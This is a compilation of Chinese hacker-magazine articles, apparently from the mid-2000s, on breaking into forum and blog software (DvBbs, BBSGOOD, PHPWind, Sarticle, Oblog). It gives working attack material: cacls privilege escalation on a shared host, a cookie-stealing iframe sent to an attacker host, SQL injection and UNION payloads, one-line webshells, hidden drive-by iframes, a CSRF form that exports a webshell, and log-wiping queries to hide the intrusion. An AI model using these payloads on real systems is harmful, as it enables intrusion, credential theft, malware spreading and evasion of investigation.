

服务器上的 `D:\nethost` 目录下存放的是这个虚拟主机上所有其他网站的目录信息，我们刚才是无法访问的，这回提升权限后再访问看一下！提升权限输入：

`D:\nethost\hljmsgao.com\bbs\images\ftp.exe "cacls.exe d: /T /E /G everyone:F"`

这样我们就拥有了 D 盘的完全控制权！再来看一下能否访问，如图15。哈哈！我们终于突破了虚拟主机的坚强堡垒！先访问一个网站的目录，就拿那个 `0451game.com` 为例吧！点击进入后如图16。可能有菜鸟又要问了，里面怎么什么信息都没有？呵呵，这个其实也是权限的问题，我们还是利用刚才的 `ftp.exe` 来提升权限！在“命令／参数”里输入：

`D:\nethost\hljmsgao.com\bbs\images\ftp.exe "cacls.exe D:\nethost\0451game.com /T /E /G everyone:F"`

然后点“运行”，如图17。这样我们就拥有了这个目录的完全控制权限！接着再来访问，怎么样？里面的东西全都出来了吧，如图18。提权就介绍到这里了，接下来该怎么做就全靠大家的想象力了！不过我事先声明，本文的主旨是技术探讨，如果有哪位人心不死的朋友想对这台服务器搞点什么破坏的话，那一切后果由读者自行承担！

然后在其中输入动网论坛数据库的路径信息，如图19，点“提交”，之后分别输入：Delete * From [Dv_User] where UserLastIP='你的IP地址'、Delete * From [Dv_Admin] where LastLoginIP='你的IP地址'、Delete * From [Dv_Log] where l_ip='你的IP地址'，然后点“执行查询”，如图20。这样就删除掉了数据库中所有和你的IP地址有关的记录，一切完毕后，闪人！看看手表，已经到了晚饭的时间了，MM不是答应要请我吃饭吗？哈哈！回去和她共进晚餐了！

（文章中涉及到的工具：DvBbs sp2 权限提升软件、暴 Dv_log 表利用工具、Encode/Decode 转换工具、Domain 3.5、Serv-U 提升权限工具、海阳顶端网 ASP 木马 2006+ 正式版，光盘中已收录）

这次渗透到这儿就告一段落了，接着我们来清除入侵时留下的日志信息。因为是从动网论坛开始的渗透，所以清除掉动网日志里我们自己 IP 的记录就可以了。至于 IIS 日志，因为清除它需要事先停掉 IIS 服务，倘若这个时候没有管理员值班的话，那网站服务暂时就无法开放，对于其上的众多站点的访问是有很大影响的。所以在这里只介绍如何清除动网论坛的日志，方法是使用 webshell 中的“数据库操作器”。这里我强烈建议大家使用海阳顶端网 ASP 木马 2006+ 正式版，因为它的数据库操作功能要比以前的海阳木马好得多！

## 黑客术语小补习

**什么是端口？**  
端口（Port）相当于一种数据的传输通道，用于接收某些数据，然后传送给相应的服务，而电脑将这些数据处理后，再将相应的回复通过开启的端口返回给对方。一般每一个端口的开放都对应了相应的网络服务，要关闭这些端口只需要将对应的服务关闭就可以了。

## BBSGOOD 也疯狂

普罗米修斯 [TAT]

### 一、前言

BBSGOOD 是一款以生成 HTML、提高论坛访问速度、降低系统负载为主要理念的 ASP 论坛程序。经过测试，其生成静态与缓存机制确实提升了访问速度，但由于制作疏忽带来安全隐患，攻击者可获取管理员密码并进一步取得 webshell。

### 二、发帖跨站漏洞分析

文章先测试发帖处是否存在跨站漏洞。普通 `<script>alert()</script>` 方式在发帖后未触发，说明程序员对此有防护。随后在在线编辑器中发现可插入 HTML 代码的按钮（图1）。

点击插入按钮后，在对话框中直接写脚本依然失败。改用“插入图片”对话框，填入 `javascript:alert()`（图2）。

发帖并进入帖子后弹出对话框，说明跨站成功。随后可插入窃取 cookies 的代码。

```html
<iframe width=0 height=0 src="http://www.hackersite.com/getcookies.asp?+document.cookie"></iframe>
```

文中说明 `http://www.hackersite.com/getcookies.asp` 为窃取 cookies 的接收地址。由于 BBSGOOD 将密码以 md5 保存在 cookies 中，作者提出伪造 cookies 的方式登录管理员身份。

首先注册普通用户并保存 cookies，使用 IECookiesView 打开相关论坛 cookies 信息（见图3）。

将 `BBSGood.Speedadmin` 改为 1，`BBSGood.Speedpassword` 改为盗取到的管理员 MD5，`BBSGood.Speedusername` 改为管理员用户名（默认 admin），重新打开论坛即显示已登录管理员。

### 三、前台找回密码注入漏洞

作者指出若未能拿到管理员散列值，可利用“找回密码”功能。该处对输入用户名过滤不足，导致可注入。并给出 `getpass.asp` 相关代码。

```asp
username=trim(Request.Form("username"))
sql="select * from LxTel_User where username='"&username&"'"
Set rs=Server.CreateObject("ADODB.Recordset")
rs.open sql,conn,1,1
DataNum=DataNum
```

为便于查询密码，文中使用 union 联合查询。因原 SQL 选取了 LxTel_User 表全部字段（39 个），需构造 39 列的 union 语句，在用户名处填入相应 payload，得到图4（文中提及）。

在“密码问题”位置可回显指定列内容，因此将注入语句中的某列替换为 `password`，即可回显管理员密码字段，进而得到图5（文中提及）。

这时可以知道，用户名为 admin 的用户，其密码 MD5 散列值为 7a57a5a743894a0e。这里得到的密码同使用跨站盗取 cookies 得到的密码是相同的，可以进一步伪造 cookies 登录。

### 四、进阶攻击得到 webshell

如果说伪造 cookies 登录前台仅仅是用来捣乱的话，那么利用后台某些对管理员操作过分信任的漏洞，就可以进一步得到 webshell，而危害整个站点甚至服务器的安全了。首先利用上述方法伪造好管理员的 cookies，然后打开 `admin/cssedit.asp` 这个页面，这里是进行站点 CSS 风格编辑的页面，我们在其第一行写入 `<%eval(request("a"))%>` 这样的一句话木马；而后再打开 `savemb.asp` 页面，在“导出模板位置及文件名”处写入扩展名为 asp 的文件名（如 shell.asp）并提交，即可在站点根目录生成 webshell。

不过文中还提到一个细节：页面可能没有反应，但操作本身是正确的。推测原因是后台管理基于 IFrame，而为避免登录二次检查直接访问了框架包含页面，导致 IE 对表单提交支持不佳。可先在本机搭建论坛平台，以管理员身份登录后使用 Winsock Expert 抓取对应 POST 数据包，再用 NC 提交到目标服务器，操作完成后同样可在论坛根目录得到 shell 文件。最后还要清除入侵痕迹，将模板改回原来的样子。

### 五、总结

本次漏洞查找利用的过程主要是遵循如图6所示的顺序。当然，需要说明的是，其实发现跨站漏洞后，可以通过构造跨站表单来实现对于 CSS 样式的修改和备份，并得到 WEBSHELL。构造跨站表单的方法在以前的杂志中已经详细讲过了，由于篇幅原因不再详述，建议读者自己试着构造一个表单，并测试进行跨站提交表单来获得 WEBSHELL 的过程。因为漏洞的查找和利用的思路有很多，还需要读者自己进行扩展。

（文章中涉及到的工具：IECookiesView、盗取 cookies Asp 版.asp，已经收录在光盘中）

## 别忘了还有 PHPWind 论坛

PHPWind 论坛也是国内使用较多的一种论坛，如中国黑客联盟、火狐技术联盟、红鹰安全小组等。然而 PHPWind 论坛一样也存在跨站漏洞，导致论坛可以被挂马。

我们首先测试一下 v4.0.1 版本的 PHPWind 论坛，在百度或 Google 搜索引擎里输入“Powered by PHPWind v4.0.1”，回车后会找到很多目标论坛。任选一个目标，注册 ID 并进入论坛发帖，在附件描述等位置插入脚本代码（例如 `<script>alert(document.cookie)</script>`），再上传一张合法图片并提交。当用户浏览帖子时脚本会执行，从而盗取 COOKIE 信息。

```html
<span class="tpc_title">------</span><br>
<hr><br>
<script>alert(document.cookie)</script><br>
<br>
[<a href='job.php?action=del...'>删除</a>]
```

这样一来大家就明白下一步该做什么了：插入框架脚本代码（如 `<iframe src=网马地址 width=0 height=0>`），当别人浏览本帖时就会悄无声息地成为“肉鸡”。同时检查源代码可发现部分位置过滤不严，插入代码并未被有效拦截。

除此之外，PHPWind v4.0.1 论坛中还存在三个漏洞：勋章中心消息的漏洞、评分功能的漏洞和论坛展区的漏洞。

- 1. 勋章中心功能的漏洞：PHPWind v4.0.1 论坛如果启用了勋章中心功能，仍可通过站内操作触发跨站代码。
- 2. 评分功能的漏洞：在可评分权限区域可通过评分理由内容利用代码达到挂马目的。
- 3. 论坛展区的漏洞：展区默认不对普通用户开放，但可利用管理员 cookie 相关方式触发信息外传。

现在我们来测试一下 PHPWind v4.3.2 免费版论坛……也可以成功跨站的，如图4。

```html
<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=6,0,29,0" width="FLASH大小" height="FLASH大小">
  <param name="movie" value="FLASH地址">
  <param name="quality" value="high">
  <embed src="FLASH地址" quality="high" pluginspage="http://www.macromedia.com/go/getflashplayer" type="application/x-shockwave-flash" width="32" height="32"></embed>
</object>
```

### （4）在影音文件中挂马

用到的工具是 RealMediaEditor。先打开 RealMediaEditor，导入影音文件后新建 txt 文件并写入时间与网址，再在工具中合并事件即可。

### （5）URL 欺骗的方式

其实 URL 欺骗的方法有很多……其利用代码如下：

```html
<h1>...before</h1>
<br> the <b>java-script</b>
<script type="text/jscript">
function init(){
  document.write("The time is now: " + Date())
}
window.onload = init
</script>
And ... after the <b>java-script</b>
```

继续挂马，但是我发现了一个问题……免费版本论坛虽然升级了，但安全问题还是不那么完善。下面我们说明一下挂马的方式和技巧。

- 1. **HTML 挂马**：`<iframe src="网马地址" width="0" height="0" scrolling="no" frameborder="0"></iframe>`。
- 2. **JS 挂马**：`document.write('<IFRAME ... src="网马地址" ...></IFRAME>');`，可配合 JS 加密混淆。
- 3. **SWF 挂马**：可借助 IDSWF.EXE 等工具制作。

保存上面的代码为 HTML 页面，如果只看到时间，说明 IE 存在此漏洞；在 WinXP SP2、Win2000 SP4、Win2003 SP1 上均测试通过。然后再写入代码：

```html
<p><a id='exploit' href='网马地址'></a></p>
<div>
  <a href='http://www.163.com' target='_blank'>
    <table>
      <caption>
        <a href='http://www.163.com' target='_blank'>
          <label for='exploit'>
            <u style='cursor:pointer;color:black'>www.163.com</u>
          </label>
        </a>
      </caption>
    </table>
  </a>
</div>
```

保存上述代码后，表面链接指向 `www.163.com`，但真实链接可被替换为网马地址。（文中涉及工具：IDSWF.EXE、RealMediaEditor）

## “安全天使”也入侵

剑心 [B.C.T]

> 安全提示贴（文字较模糊）：文章中易忽略的缺陷，代码审核时需注意输入过滤与输出处理等问题。

安全天使是国内著名的一个安全组织，特别是在 web 安全方面有很深的造诣，其研究与共享的资料至今仍是不可多得的学习资料。他们也推出了自己的文章系统和 Blog 等 web 程序。这样的程序在安全上是绝对值得信赖的，他们对变量以及程序的逻辑处理方式也是值得程序员和 web 安全人员学习和思考的。最近我也略微读了一下他们文章系统的代码，在学到不少东西的同时也发现了一点点瑕疵，本文就权作一点点评论。

首先来看文章系统的变量处理方式以及是如何做到绝对安全的。最先推出的是 sarticle_v1.0，安装完成后，我们会发现整个文章系统非常简洁，没有什么交互的地方，基本的发布功能都是在后台完成的，而后台的页面是只有管理员权限的人才能访问的，如图1。唯一能以普通权限交互的地方就是搜索功能了，但是这个搜索功能是不存在注入或者跨站什么的，可以通过代码看到：

```php
echo '<font color=#636563>$row[date]</font> -- by <font color=#31659C>' . htmlspecialchars($row['author']) . '</font></span><br>\n';
echo '' . htmlspecialchars($row['description']) . '\n';
```

数据里取出的记录是经过 htmlspecialchars 处理的，对于这样不处于其他 HTML 标签里的输出来说，也是没有任何问题的。还有个可能存在问题的地方是后台的登录，但是当看到后台的用户密码是存在文件中的时候又不得不放弃了！到此我们可以学到一些东西哦，那就是最少的服务等于最大的安全，这在 web 里照样实用。我们可以看到在普通用户权限下，除了没有什么利用价值的搜索，我们基本是无法和系统传递任何参数进行交互的……如果再做一些详细的变量处理，这个程序在安全上应该是完美的了！

图1

```php
$search = "title LIKE '%$keyword%' || content LIKE '%$keyword%'";
$query = mysql_db_query($dbname, "SELECT COUNT(*) FROM $article_table WHERE $search");
$tatol = mysql_result($query, 0);
$multipage = multi($tatol, $page_num, $page, "search.php?keyword=$keyword");
$sql = "SELECT * FROM $article_table WHERE $search ORDER BY id DESC LIMIT $start,$limit";
$result = mysql_db_query($dbname, $sql);
```

可以看到至少在默认配置 magic_quotes_gpc 为 on 的时候，这段代码是绝对安全的。其实在 magic_quotes_gpc 为 off 的时候也很不好利用，因为管理员账号和密码是在 config.php 里设置的，权限大点的话可以 load file。唯一能算得上有点 Bug 的东西就是如果输入搜索“_”和“%”等字符的话，会将这个数据库里的东西搜索出来，可能会对程序有点影响，但是这跟我们所要的 webshell 没有多大关系，也就不说了。跨站就更不存在了，看看后面的代码：

```php
echo '<span class=articletitle><a href="./show.php?id=$row[id]" title="点击查看" target=_blank>' . htmlspecialchars($row['title']) . '</a></span>\n';
```

说完了上面的 1.0，我们再来看最新的 1.8 文章系统。1.8 从前台上看不出什么功能，但是后台就加入了很多的功能，这就跟我们说的“最少服务等于最大安全”有点出入了！作为学习，我们还是先看看作者处理变量的方式吧！与以前不一样，为了保证思维的清晰和应用的方便，作者用：

```php
if (function_exists('ini_get')) {
    $onoff = ini_get('register_globals');
} else {
    $onoff = get_cfg_var('register_globals');
}
if ($onoff != 1) {
    @extract($_POST, EXTR_SKIP);
    @extract($_GET, EXTR_SKIP);
}
```

这段代码允许程序在 register_globals = off 的环境下工作（自动注册变量，这是个应用上的进步哦）。

```php
// 判断 magic_quotes_gpc 状态
if (!get_magic_quotes_gpc()) {
    $_GET = stripslashes_array($_GET);
    $_POST = stripslashes_array($_POST);
    $_COOKIE = stripslashes_array($_COOKIE);
}
```

这段代码保证所有用户提交的变量都是没有经过 magic_quotes_gpc 处理的，这样就会要求程序自己处理变量中的“'”等特殊字符，保证了作者清晰的变量过滤思路。但是如果处理不好的话，这里就会成为很多程序不安全的起源，而且已经与 magic_quotes_gpc 无关了。

## 一个人的战争

完成上面程序的工作环境之后，来看看我们安全爱好者的工作吧：寻找可以利用的变量来跟系统实现交互，也就是找可以提交参数的地方！先看看搜索功能：

```php
$keywords = addslashes($keywords);
$keywords = str_replace("_", "\\_", $keywords);
$keywords = str_replace("%", "\\%", $keywords);
```

不仅注入修补了，以前所谓的 Bug 也补了。还有个交互的地方就是后台登录……在 `admin/global.php` 文件中：

```php
if ($_POST['action']=='login') {
  $username=addslashes(trim($_POST['username']));
  $password=addslashes(trim($_POST['password']));
  if (checkuser($username, md5($password))) {
    $_SESSION['username']=$username;
    $_SESSION['password']=md5($password);
    loginsucceed($_POST['username'], $_POST['password']);
  } else {
    loginfaile($_POST['username'], $_POST['password']);
  }
}
```

果然取得的参数一开始就经过 `addslashes`，杜绝了字符变量注入的可能性。看看在 `admin/functions.php` 中的 `checkuser` 函数：

```php
function checkuser($username,$password){
  global $DB,$db_prefix,$userinfo;
  $username = htmlspecialchars(trim($username));
  $username = trim($username);
  $userinfo = $DB->fetch_one_array("SELECT * FROM ...");
  if (empty($userinfo)) return false;
  else return true;
}
```

再次经过了 `htmlspecialchars` 和 `addslashes` 的过滤然后传到数据库中……看看 `loginfaile` 的定义。

```php
function loginfaile($username='', $password='')
```

```php
global $DB, $db_prefix;
$extra = "\nScript: ".getenv('REQUEST_URI');
$DB->query("INSERT INTO ... adminlog (username,password,date,ipaddress,result) VALUES (...) ");
```

这里的 `username` 只是经过了：

```php
$username = htmlspecialchars(trim($username));
$username = trim($username);
```

处理就 `insert` 到数据库中了！过滤了跨站字符，但是没有处理注入要用到的 `"`、`'` 字符……继续往下看。

继续看后台的功能吧！后台有个很有意思的功能就是数据库备份……看看程序对进入数据库变量处理的方式吧：



图2

```php
$DB->query("INSERT INTO ... adminlog (action,script,date,ipaddress) VALUES (...) ");
```

可以控制的内容差不多都是经过 `htmlspecialchars` 处理的，但是我们知道无论是跨站还是写 php 的 webshell 都需要 `<>` 字符……到这里我们该好好想想了！

我们知道，Mysql 数据库识别字符串的方式不只 `''` 一种，它还支持十六进制的方式，而 `htmlspecialchars` 对十六进制是不感冒的……首先，它可以在后台产生跨站脚本漏洞；其次，它可以将 `eval($_POST[c])?>` 这样的 webshell 内容送入数据库，方便后面的导出。

去后台登录的地方，在用户名登录处写上：`admin' , 0x... , '1203000702' , '127.0.0.1' , '2')/*`。注意其中的十六进制串是密码和 `<script>alert("Loveshell")</script>` 的十六进制表达形式，后面的 `/*` 是注释原来的 SQL 语句。

现在我们用管理员的身份去后台看看，找找登录记录的地方，点开后如图4。呵呵，我们的脚本执行了，证明漏洞是存在的，也证明了是完全可以得到 webshell 的！

这可能不是最隐蔽的，熟悉 Html 的话可以想出隐藏很多的方法。我们只需要将需要引入的页面代码和 webshell 代码转成十六进制表达形式，构造适当的注入语句提交到后台中，然后引诱管理员查看登录记录，就可以得到指定位置的 webshell 了。

例如先将：`<iframe src='http://127.0.0.1/vul.html' height='0' width='0'></iframe><? eval($_POST[c])?>` 转成十六进制……然后在登录的地方写上 `admin' , 0x... , '1203000702' , '127.0.0.1' , '2')/*`。很幸福，这里用户名是没长度限制的，如图5。









既然存在跨站，我们就可以用后台的身份引入一个 Html；然后以后台身份备份一个含有 webshell 的数据库。通过对备份数据库页面的分析，我写出了如下的 `EXP.Html`。

```html
<form action="http://localhost/php/sarticle/sarticle_0/admin/database.php" method="post" name="">
  <input type="hidden" name="action" value="dobackup" />
  <input name="tablename[]" size="15" value="sa_loginlog" />
  <input type="text" name="path" size="35" maxlength="50" value="../1.php" />
</form>
<script>
  document.forms[0].submit();
</script>
```

其中备份 `login_log` 表，备份的路径是同目录下的 `1.php`，你可以根据自己的需要修改这段代码。然后就是如何引入这代码了，我用的是 iframe 方法……



然后让管理员登录后台，确认管理员登录过后台了，可以看看我们的 `1.php` 后门是否存在，如图6。然后用一句话木马客户端连上去……查看源文件或者传个大马上去就 OK 了，如图7。到此学习完成，安全是相对的……在变量处理前面加个 `addslashes` 处理一下或者限制下长度就 OK 了！

## Oblog也注入

### —— 仅仅是疏忽吗？

寂寞的刺猬

前两天从 OBLOG 主页下载了一套“OBLOG2.52”版源码，这是一套基于 SQL 数据库的程序……当读到 `user_blog.asp` 时，其中的一段代码引起了我的注意！

```asp
sub moveblog() ...
if id="" then
  FoundErr=true
  ErrMsg=ErrMsg & "<br><li>请选择要移动的日志...</li>"
  exit sub
end if
...
if instr(id,",")>0 then
  id=replace(id,"'","")
  sql="update [blog] set ... where id in (" & id & ")"
else
  sql="update [blog] set ... where id=" & id
end if
Conn.Execute sql
response.Redirect "user-blog.asp"
end sub
```

这是一段移动日志的代码，其中最关键的地方就是 `if instr(id,",")>0 then` 这一段……使用的是程序自定义的 `ReplaceBadChar` 函数，这是一个什么样的函数？

```asp
function ReplaceBadChar(strChar)
  if strChar="" then
    ReplaceBadChar=""
  else
    ...
  end if
end function
```

```asp
ReplaceBadChar=replace(replace(replace(replace(replace(replace(replace(strChar,...)))))))
... 过滤了 '、*、?、(、)、<、" 等字符 ...
```

用 `replace` 过滤了 `'、*、?、(、)、<、"` 七种字符……只要提交的 ID 能绕过前面的七种字符，就能有用武之地！

- 1. 对于 SQL 环境内的注入，通常采用“暴错”来获取数据库信息……
- 2. 那么插入语句呢？如在 admin 表中插入用户……
- 3. 常用的 SQL 语句还有一个，就是更新语句……

